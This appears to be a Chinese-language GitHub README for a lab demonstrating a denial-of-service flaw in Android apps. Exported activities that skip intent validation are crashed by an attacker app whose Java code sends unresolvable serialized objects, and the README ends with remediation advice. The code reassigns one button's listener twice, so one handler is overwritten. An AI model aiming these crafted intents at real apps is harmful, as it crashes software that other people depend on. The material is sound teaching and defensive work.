


# Android APP通用型拒绝服务漏洞

## DenialServiceApp

该项目模拟包含拒绝服务漏洞的APP，其中的`ParcelActivity`与`SerialActivity`的导出权限被设置成了`true`，但并没有对接收到的intent进行有效性判断与校验；而`SafeSerialActivity`虽然由于某种原因权限设置为可导出，但对Intent中的数据进行了try…catch异常捕获，所以是安全的

## DenialServiceAttack

该项目模拟恶意应用，对DenialServiceApp进行攻击，构造一个自定义的序列化对象传入intent，来启动上述APP，导致其无法处理而崩溃。

攻击代码如下，构造一个空的序列化对象传入

```java
        btnSerial.setOnClickListener(v -> {
            Intent intent = new Intent();
            intent.setClassName("com.example.denialserviceapp", "com.example.denialserviceapp.SerialActivity");
//            intent.putExtra("user", new SUser());
            intent.putExtra("data", new SUser());
            startActivity(intent);

        });
        btnParcel.setOnClickListener(v -> {
            Intent intent = new Intent();
            intent.setClassName("com.example.denialserviceapp", "com.example.denialserviceapp.ParcelActivity");
            intent.putExtra("user", new PUser());
            startActivity(intent);
        });
        btnSafeSerial.setOnClickListener(v -> {
            Intent intent = new Intent();
            intent.setClassName("com.example.denialserviceapp", "com.example.denialserviceapp.SafeSerialActivity");
            intent.putExtra("user", new SUser());
            startActivity(intent);
        });
        btnSafeSerial.setOnClickListener(v -> {
            Intent intent = new Intent();
            intent.setClassName("com.example.denialserviceapp", "com.example.denialserviceapp.StringActivity");
            intent.putExtra("data", new SUser());
            startActivity(intent);
        });
```


第一个攻击的报错信息



第四个攻击的报错信息




如果接收Intent的目的组件没有对Intent中的信息进行校验或者异常捕获，传入任何的序列化对象都会导致`get…Extra()`方法对数据进行解析时、因找不到序列化的类而抛出异常导致应用崩溃


## 修复建议

-   非必要导出的组件设置其`exported`属性为`false`。
-   导出的组件中进行权限的控制，限制第三方应用访问
-   对于`get...Extra()`方法及之后的变量设置异常捕获，防止应用崩溃
